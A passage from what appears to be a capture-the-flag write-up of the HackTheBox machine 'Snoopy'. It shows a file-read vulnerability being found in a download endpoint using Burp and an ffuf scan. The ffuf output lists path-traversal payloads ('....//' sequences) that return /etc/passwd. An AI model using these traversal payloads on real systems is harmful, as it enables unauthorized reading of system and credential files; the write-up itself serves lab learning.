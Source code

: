 ```
```

The various 172.18.0.0/8 IPs suggest perhaps these are containers.

I’m going to hold off on putting these into my `hosts` file for now. `mm` I know returns something different, so that one is worthwhile. I can also see that `mail.snoopy.htb` is not there, which fits with the errors observed above. I’ll keep the others in mind as well.

## Shell as cbrown

### File Read

#### Identify

On seeing a URL like `/download?file=announcement.pdf`, the first thing to check is for a local file include or file read vulnerability. Manually I’ll check in Burp Repeater, but it just returns a 0 byte response:

![image-20230509152805795](https://0xdf.gitlab.io/img/image-20230509152805795.png)

It could be not vulnerable, or there could be some filtering to bypass. I’ll use an LFI wordlist to check a lot at once with `ffuf`:

```
oxdf@hacky$ ffuf -u http://snoopy.htb/download?file=FUZZ -w /opt/SecLists/Fuzzing/LFI/LFI-Jhaddix.txt -mc all -ac

        /'___\  /'___\           /'___\
       /\ \__/ /\ \__/  __  __  /\ \__/
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/
         \ \_\   \ \_\  \ \____/  \ \_\
          \/_/    \/_/   \/___/    \/_/

       v2.0.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : http://snoopy.htb/download?file=FUZZ
 :: Wordlist         : FUZZ: /opt/SecLists/Fuzzing/LFI/LFI-Jhaddix.txt
 :: Follow redirects : false
 :: Calibration      : true
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: all
________________________________________________

....//....//....//....//....//....//....//....//....//....//....//....//....//....//....//....//....//....//....//....//....//etc/passwd [Status: 200, Size: 796, Words: 3, Lines: 2, Duration: 95ms]
....//....//....//....//....//....//....//....//....//....//....//....//....//....//....//....//....//....//....//....//etc/passwd [Status: 200, Size: 796, Words: 3, Lines: 2, Duration: 96ms]
....//....//....//....//....//....//....//....//....//....//....//....//....//....//....//....//....//....//....//....//....//....//etc/passwd [Status: 200, Size: 796, Words: 3, Lines: 2, Duration: 97ms]
....//....//....//....//....//....//....//....//....//....//....//....//....//....//....//....//....//....//etc/passwd [Status: 200, Size: 796, Words: 3, Lines: 2, Duration: 97ms]
....//....//....//....//....//....//....//....//....//....//....//....//....//....//....//....//....//....//....//etc/passwd [Status: 200, Size: 796, Words: 3, Lines: 2, Duration: 98ms]
....//....//....//....//....//....//....//....//....//....//....//....//....//....//....//....//etc/passwd [Status: 200, Size: 796, Words: 3, Lines: 2, Duration: 97ms]
....//....//....//....//....//....//....//....//....//....//....//....//....//....//....//....//....//etc/passwd [Status: 200, Size: 796, Words: 3, Lines: 2, Duration: 98ms]
....//....//....//....//....//....//....//....//....//....//....//....//....//etc/passwd [Status: 200, Size: 796, Words: 3, Lines: 2, Duration: 98ms]
```